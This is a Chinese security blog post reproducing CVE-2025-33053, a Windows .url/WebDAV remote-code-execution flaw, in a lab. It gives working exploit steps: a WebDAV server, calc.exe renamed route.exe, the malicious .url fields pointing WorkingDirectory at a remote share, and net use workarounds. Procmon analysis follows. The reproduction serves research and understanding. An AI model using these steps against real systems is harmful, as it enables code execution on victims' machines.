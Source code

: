 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MjM5NDcxMDQzNA==&mid=2247489718&idx=1&sn=726cfebbf94e1c4c60e8c850fb4e3673

#  CVE-2025-33053 Poc复现研究细节  
原创 MicroPest  MicroPest   2025-06-28 15:06  
  
今天看到这个CVE Poc，来了兴趣，进行了复现，但并不顺利。开始时死活不弹出计算器测试程序，这个过程持续了一下午+一晚上，终在晚上9时，捣鼓出来了，花了2个小时截图、写文章。我觉得网上那些人，咋做得那么顺利呢？曲折有曲折的好处，通过这些过程，让我对其中的细节理解地更深体会更深。  
  
就这样吧，脖子受不了了。  
  
2025 年 6 月的 Windows 更新修复了CVE-2025-33053漏洞，这是一个远程代码执行漏洞，目前已发现有人在野外利用。该漏洞允许指向合法本地 Windows 可执行文件的恶意 URL 文件在打开时从攻击者位于互联网上的服务器“侧载”DLL 或 EXE 文件。注意的是，虽然微软将此漏洞命名为“WEBDAV RCE远程代码执行”，但该漏洞通常可以通过任何 SMB 网络共享（包括内部网络共享文件夹）进行利用。然而，由于大多数防火墙和互联网服务提供商会阻止 SMB 流量，因此WebDAV 的攻击场景更加强大，因为它允许恶意 DLL 直接穿过防火墙从互联网上的服务器加载。  
  
**这个漏洞有点象当年的DLL劫持一样，利用了windows搜索顺序逻辑。**  
  
****  
攻击者使用指向 WebDAV 服务器的
```
.url
```

恶意快捷方式。当 Windows 执行合法工具（例如IE/Edge）时，它会默认进入远程文件夹并运行攻击者控制的二进制文件（例如），而不是本地文件。
```


```

  
  
  
Poc地址：  
https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept  
  
使用过程，见网上很多文章，介绍下我的研究细节，  
  
1、执行 ./setup_webdav.sh，搭建webdav服务器，如下图部署成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8ffIMibq5yLZVI08ebMkpFzRmmrGtP6KP0vQ2y5avgNFKfn73sibT7rTQ/640?wx_fmt=png&from=appmsg "")  
  
将calc.exe copy到/var/www/webdav目录下改名为route.exe，以及  
C:\Program Files\Internet Explorer\iediagcmd.exe也copy到同目录下。  
  
访问   
http://192.168.239.128/webdav，如下图表示成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8zUYcg1LOLa4HKDG8NC2dR84e0Sibzw6eA4Kub2Eaib8IoQu6Ax1nSzyw/640?wx_fmt=png&from=appmsg "")  
  
2、生成url文件，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8So8Q4xiazVPoKopiceZbh4k1IJicJENTrSpfAJRCgWKJTAGd0s411s7tw/640?wx_fmt=png&from=appmsg "")  
  
说下上图中url的执行顺序，  
  
先执行  
URL=C:\Program Files\Internet Explorer\iediagcmd.exe，当它运行时会收集一些信息，这是正常的功能，其中包含了一项功能就是route，所以它会调用route.exe，这时顺序来了，从哪找起呢，注意url的第二行  
WorkingDirectory=\\192.168.239.128\webdav\  
，会从webdav服务器上找route这个程序，所以会执行route.exe这个程序，而route.exe是计算器，因此弹出了calc。如果这是个木马，就隐蔽地执行了。  
  
3、将这个生成的doc.url放到windows本机上，双击，发现并没有弹出名为route.exe的计算器calc程序（后面又弹出了，刚开始时始终不行。下面的截图都是成功弹出）；  
  
一、成功状况下地分析  
  
4、架起procmon、procexp进行分析  
  
监视iediagcmd.exe以及route.exe程序的运行状态  
  
当我截上面这张图时，弹出了计算器，发现是执行成功了，刚才死活不行的。  
  
（4-1）我们来看下iediagcmd.exe的执行顺序，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn88RzhBEG9Mn5MicOITGxsBBu3wWH4VOcteo8BmgtQrK08GKpibZj5P1xg/640?wx_fmt=png&from=appmsg "")  
  
找ipconfig，先在当前目录和webdav下找，没找到，转去system32下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8iac8v50GeN9MgkeQhAHI7H3KCNxEFGGlWEf0mkAhTZnaAw3ys0wm0yQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8EzoXCnL2yfEewOw03Afm3xeRzpWvwHSEEpjPKRjQlgAfnpMYhQxRkA/640?wx_fmt=png&from=appmsg "")  
  
接着找route，当前目录下没有，就去webdav下找，发现了，执行它。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn8Ykry790DlhAOicoU5O1tDe4DQ4BPJ95NQe0KL5UHHSvxngZE4TeyBgA/640?wx_fmt=png&from=appmsg "")  
  
接着找mpr.dll；  
  
不往下截图了。顺着找，可以将iediagcmd所有调用的收集程序全部找出来，也就意味着webdav服务器可以存放这些“冒名”的程序供它下载执行。  
  
（4-2）看下procexp，  
iediagcmd调用了route.exe，如下图。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2hnvgPYNzpLOfN4MsS96Y4nOraMJEtn847wTZicdeJUxf3sWPFAmlzIBVBibK1S86LKJSoSUpDFIWPLYuwLVfiaQA/640?wx_fmt=png&from=appmsg "")  
  
  
====  
  
二、不成功状态下的方法  
  
我接着来说前面没执行成功时的做法：  
  
方法1：  
  
将url第一行   
URL=C:\Program Files\Internet Explorer\iediagcmd.exe  
  
改成：  
  
URL=\\192.168.239.128\webdav\route.exe  
  
让它直接执行，这法子果然可行；  
  
方法2：powershell下执行  
  
net use z: \\192.168.239.128\webdav  
  
dir z:  
  
直接打开共享；后面我关闭了net use z: /delete。  
  
通过上面两种方法，现在改回   
URL=C:\Program Files\Internet Explorer\iediagcmd.exe，发现可以弹出route.exe计算器了。  
  
  
=====  
  
《[CVE-2025-33053，Stealth Falcon 和 Horus：中东网络间谍活动传奇](https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247531295&idx=2&sn=1bf7b0c5827626d1954d97ddab0be670&scene=21#wechat_redirect)  
》对整个攻击链的分析，值得一看。  
  
  
###   
  
  
